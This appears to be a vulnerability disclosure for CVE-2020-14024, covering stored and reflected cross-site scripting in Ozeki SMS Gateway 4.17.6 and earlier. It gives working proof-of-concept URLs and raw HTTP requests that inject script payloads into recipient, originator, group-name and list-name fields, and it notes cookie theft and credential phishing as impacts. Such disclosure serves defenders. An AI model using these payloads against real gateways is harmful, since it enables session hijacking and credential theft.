

# CVE-2020-14024: Ozeki SMS Gateway Multiple Cross-Site Scripting

In the Ozeki SMS Gateway software, versions 4.17.6 and below, there exist multiple XSS vulnerabilities in:

<table>
	<tr>
		<th>Vulnerable Page URL/Component</th>
		<th>Vulnerable Parameter/Field</th>
	<tr>
	<tr>
		<td>Mailbox of users</td>
		<td>Receiver, Recipient</td>
	</tr>
	<tr>
		<td>/default</td>
		<td>OZFORM_GROUPNAME, listname</td>
	</tr>
	<tr>
		<td>Any URL</td>
		<td>Any GET Parameter</td>
	</tr>
</table>

These XSS issues can be exploited in order steal other the user's session cookies and later to impersonate them, to serve other users custom HTML pages or forms in order to steal their authentication credentials or to perform crypto currency mining in the context of the victim's browsers.

### Proof Of Concept:

#### Stored XSS in Originator Name

First, we install the "HTTP Server Connection" service provider:


Now, we can use the following link to inject our JavaScript payload:
```
http://127.0.0.1:9400/sendMessage?recipient=%2B441234567&originator=%3c%73%76%67%20%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%27%58%53%53%27%29%3e&senttime=6%2F3%2F2020+12%3A56%3A54+PM&dcs=00&pid=00&msg=scxd
```


#### Stored XSS in Recipient Name

First, we install the "HTTP Server" module:


Now, we can use the following link to inject our JavaScript payload:
```
https://127.0.0.1:9443/api?action=sendmessage&username=httpserver&password=httpserver&recipient=%3Csvg/onload%3dalert(document.cookie)%3E&messagetype=SMS:TEXT&messagedata=Hello+World
```


#### Stored XSS in Group Name



Request:
```
POST /default HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 258
Cookie: usrckenc=4ef***TRUNCATED***712 
Connection: close

mode=addgroup&layout=MENUVIEW&MENU=COMPOSEMENU2&MAIN=COMPOSE&OZFORM_GROUPNAME=%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E&OZFORM_ALLOWSUBSCRIPTION=off&OZFORM_GROUPSUBSCRIBE=&OZFORM_GROUPBYE=&OZFORM_GROUPGREETING=&OZFORM_GROUPUNSUBSCRIBE=&OZFORM_BUTTON=OK
```


#### Stored XSS in List Name


Request:
```
POST /default HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Cookie: usrckenc=4ef***TRUNCATED***712

layout=MENUVIEW&MENU=ROUTINGMENU&MAIN=LISTMANAGEMENT&mode=addnow&listname=%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E
```


#### Reflected XSS in GET Parameters

URL:
```
http://localhost:9501/?'-alert(1)-'
```

Response:
```
HTTP/1.1 200 OK
Content-Length: 28598
Content-Type: text/html; charset=utf-8
Last-Modified: Sun, 31 May 2020 16:22:48 GMT
Server: OzekiNG/4.17.6 Microsoft-HTTPAPI/2.0
Date: Sun, 31 May 2020 23:22:48 GMT
Connection: close

<HTML>
<HEAD>
     <TITLE>OzekiNG 4.17.6 - <IP>:9501 (admin)</TITLE>
     <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=UTF-8">
	 
***TRUNCATED***

	 <script language="javascript" type="text/javascript">
                window.onload = function(){

***TRUNCATED***
                 xmlreqGET('/ajax/ajax?component=DRIVERS&ajaxview='+ajaxviewDRIVERS+'&ajaxmode=timerupdate&ajaxotherREQUESTURL=http://127.0.0.1:9501/'-alert(1)-' &user=admin&folder=deleted&ajaxotherusrckenc=b3c9b1735a52594132c80b69ef45304c&ajaxotherREFERER=&ajaxotherlayout='-alert(1)-'&ajaxotherMAIN=USERMAIN&

***TRUNCATED***
```


